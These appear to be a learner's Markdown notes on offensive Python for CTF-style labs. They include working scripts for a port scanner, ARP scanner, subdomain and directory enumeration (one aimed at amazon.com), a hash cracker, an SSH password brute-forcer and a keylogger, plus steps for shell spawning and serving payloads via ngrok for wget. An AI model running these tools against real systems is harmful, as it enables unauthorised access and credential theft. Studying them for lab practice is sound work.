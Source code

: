 # Libraries
### Requests
```python
import requests
response = requests.get(url)
print(response.text)
print(response.status_code)
print(response.cookies)
```

```python
resp = requests.post(url, cookies={'admin':'value'})
```

### Os
```python
import os
os.system("ls")
```

### Pty
```python
# Open a shell prompt
import pty
pty.spawn("/bin/bash")
```

### Hashlib
```python
hash = hashlib.md5("password".encode()).hexdigest()
hash = hashlib.sha256("password".encode()).hexdigest()
```

### Socket
```python
import socket
import time

# Open the communication
s = socket.socket()
s.connect(('target', port))
time.sleep(1)

counter = 0
while True:
    time.sleep(0.2)
    output = s.recv(2048).decode()
    print(output)
    if "What do you want to eat ?" in output : 
	    ret = "Some chicken"
	    s.send(ret.encode()+b"\n")
```

### Scapy

### Sys

### Paramiko 
- Paramiko is an SSHv2 implementation

# WebServer

## On premise
```bash
python -m http.server 9000
```

***It may be necessary to disable firewalls :*** 
```bash
sudo ufw allow from 10.10.227.247 proto tcp to any port 9000
```

## On remote machine : 

```bash
wget http://IP/file.name
```

We can forward the local port with ngrok to access it over all the internet.  
(it equires another terminal)

```bash
ngrok http 9000
```

```bash
wget <full ngrok given https address>
```

Ngrok addresses look like : https://4348-2a01-e0a-6e-dd60-4b76-ce7b-d8b-d846.eu.ngrok.io

# Basics

##### Convert to .exe
**Tools** : 
- Py2exe
- ...

### Subdomain enumeration 
```python
import requests

def main(wordlist, domain):
	with open(wordlist) as w :
		content = w.read()
	paths = content.split("\n")
	for line in paths :
		uri = f"http://{line}.{domain}"
		try :
			resp = requests.get(uri)
			print(f"{resp.status_code} : {uri}")
		except :
			pass

if __name__ == '__main__' :
	wordlist = "./wordlist.txt"
	domain = 'amazon.com'
	main(wordlist,domain)
```

### Directory enumeration
```python
import requests

def main(wordlist, url):
	with open(wordlist) as w :
		content = w.read()
	paths = content.split("\n")
	for line in paths :
		uri = f"{url}{line}.html"
		resp = requests.get(uri)
		if (resp.status_code == 200 ) :
			print(f"{resp.status_code} : {uri}")
	
if __name__ == '__main__' :
	wordlist = "./wordlist.txt"
	url = 'http://10.10.168.28/'
	main(wordlist,url)
```

### Network scanner

```python
 # Using ARP requests
from scapy.all import *

interface = "wlan0"
ip_range = "192.168.1.0/24"
broadcastMac = "ff:ff:ff:ff:ff:ff"

packet = Ether(dst=broadcastMac)/ARP(pdst = ip_range)

ans, unans = srp(packet, timeout =2, iface=interface, inter=0.1)

for send,receive in ans:
	print (receive.sprintf(r"%Ether.src% - %ARP.psrc%"))
```

### Port scanner
```python
import socket

def main(target):
	ports = range(1,65535)
	open_ports = []
	for port in ports :
		print(f"{port} : yet, open ports are : {open_ports}")
		try :
			sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
			sock.settimeout(0.5)
			resp = sock.connect_ex((target,port))
			if resp == 0 :
				open_ports.append(port)
		except :
			pass
		sock.close()
  
if __name__ == '__main__' :
	target = "10.10.168.28"
	main(target)
```

### Hash cracker

```python
import hashlib

def main(hash,wordlist,format) :
	with open(wordlist) as w :
		passwds = w.read()
	passwds = passwds.split("\n")
	for password in passwds :
		if format == 'SHA256' :
			tmp_hash = hashlib.sha256(password.encode()).hexdigest()
			if tmp_hash == hash :
				print(f"hash cracked, password found : {password}")
				exit()
		elif format == 'MD5' :
			tmp_hash = hashlib.md5(password.encode()).hexdigest()
			if tmp_hash == hash :
				print(f"hash cracked, password found : {password}")
				exit()
	print("Hash not cracked")
  
if __name__ == '__main__' :
	hash = 'cd13b6a6af66fb774faa589a9d18f906'
	format = 'MD5'
	wordlist = "./wordlist2.txt"
	main(hash,wordlist,format)
```

### Keylogger

```python
import keyboard
keys = keyboard.record(until ='ENTER')
# for key in keys :
#	  print(key)
keyboard.play(keys)
```

### SSH Bruteforcer

```python
import paramiko

def main(target,port,username, wordlist) :
	ssh = paramiko.SSHClient()
	ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
	with open(wordlist) as w :
		content = w.read()
	passwords = content.split("\n")
	for password in passwords :
		try :
			ssh.connect(target,port=port,username=username,password=password)
			print(f"Password found for user {username} : {password}")
			exit()
		except :
			print(f"Auth failed with {username}:{password}")
			pass
		ssh.close()
	print(f"No password found for user {username}")

if __name__ == '__main__' :
	target = "10.10.168.28"
	port = 22
	username = "tiffany"
	wordlist = "./wordlist2.txt"
	main(target,port,username, wordlist)
```